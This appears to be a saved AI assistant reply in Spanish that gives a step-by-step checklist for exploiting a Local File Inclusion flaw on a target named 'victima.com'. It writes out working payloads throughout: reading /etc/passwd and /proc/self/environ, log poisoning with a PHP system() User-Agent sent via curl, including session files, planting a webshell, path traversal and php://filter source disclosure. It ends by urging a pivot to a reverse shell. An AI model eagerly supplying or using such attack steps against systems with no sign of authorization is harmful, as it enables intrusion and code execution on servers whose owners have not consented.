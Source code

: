 
¡Nice! 😎 Si tienes un **LFI (Local File Inclusion)** con un parámetro como:

arduino

CopiarEditar

`http://victima.com/index.php?filename=algo`

...estás en terreno fértil 🔥. Ahora puedes hacer **muchísimo** dependiendo de la configuración del servidor y lo que puedas alcanzar desde ahí.

Vamos paso por paso. Aquí te dejo **una checklist** de lo que puedes probar.

---

## ✅ 1. **Leer archivos sensibles del sistema**

Empieza por probar archivos comunes:

#### En sistemas Linux:

bash

CopiarEditar

`/etc/passwd /etc/hosts /etc/hostname /proc/self/environ /var/log/apache2/access.log`

#### Ejemplo:

bash

CopiarEditar

`http://victima.com/index.php?filename=/etc/passwd`

---

## ✅ 2. **Buscar `PHP_SELF` o `environ` para inyectar código (RCE)**

### 💥 _/proc/self/environ_ (puedes inyectar código en la variable `User-Agent`)

1. Usa curl con un `User-Agent` con PHP:
    

bash

CopiarEditar

`curl -A "<?php system($_GET['cmd']); ?>" http://victima.com/`

2. Luego accede a:
    

bash

CopiarEditar

`http://victima.com/index.php?filename=/proc/self/environ&cmd=whoami`

💡 Esto funciona si el servidor **incluye lo que hay en `environ`** como si fuera código PHP, y si no tiene `disable_functions`.

---

## ✅ 3. **Log Poisoning (inyectar código en logs)**

1. Manda una petición con código PHP en la URL o el User-Agent:
    

bash

CopiarEditar

`curl -A "<?php system($_GET['cmd']); ?>" http://victima.com/test.php`

2. LFI apunta al archivo de logs:
    

- Apache:
    
    swift
    
    CopiarEditar
    
    `/var/log/apache2/access.log /var/log/httpd/access_log`
    
- Nginx:
    
    pgsql
    
    CopiarEditar
    
    `/var/log/nginx/access.log`
    

3. Luego accede con:
    

bash

CopiarEditar

`http://victima.com/index.php?filename=/var/log/apache2/access.log&cmd=id`

---

## ✅ 4. **Incluir sesiones de PHP**

Si el servidor guarda las sesiones en disco (muy común), puedes tratar de incluirlas.

Rutas típicas:

- `/var/lib/php/sessions/sess_<id>`
    
- `/tmp/sess_<id>`
    

1. Loguéate en la app o crea una sesión.
    
2. Mira la cookie `PHPSESSID`.
    
3. Accede:
    

bash

CopiarEditar

`http://victima.com/index.php?filename=/var/lib/php/sessions/sess_abcd1234`

💡 Si puedes inyectar contenido en la sesión (por ejemplo, a través de un campo de usuario), podrías meter PHP ahí.

---

## ✅ 5. **Incluir archivos subidos (webshells)**

Si la web tiene subida de archivos (y los sube a una carpeta accesible para el include), puedes intentar subir una webshell:

1. Sube un archivo `.php` con contenido como:
    

php

CopiarEditar

`<?php system($_GET['cmd']); ?>`

2. Luego accede con:
    

bash

CopiarEditar

`http://victima.com/index.php?filename=uploads/shell.php&cmd=id`

💡 Si no puedes acceder directamente por URL (por restricciones), pero sí puedes incluirlo, aún puedes ejecutarlo.

---

## ✅ 6. **Burlar filtros con rutas relativas o wrappers**

- Bypass con rutas:
    

bash

CopiarEditar

`?filename=../../../../../../etc/passwd`

- Wrapper de `php://filter` para ver el código fuente:
    

bash

CopiarEditar

`?filename=php://filter/convert.base64-encode/resource=index.php`

Eso te da el código fuente de `index.php` en base64, útil si quieres auditarlo para descubrir más cosas.

---

## 🚀 Siguiente objetivo: **RCE**

Tu misión ahora es combinar el LFI con:

- **log poisoning**
    
- **`/proc/self/environ`**
    
- **sesiones**
    
- **wrappers raros**
    
- **upload de archivos**
    

Para lograr **Remote Code Execution** y pivotar a una reverse shell 💣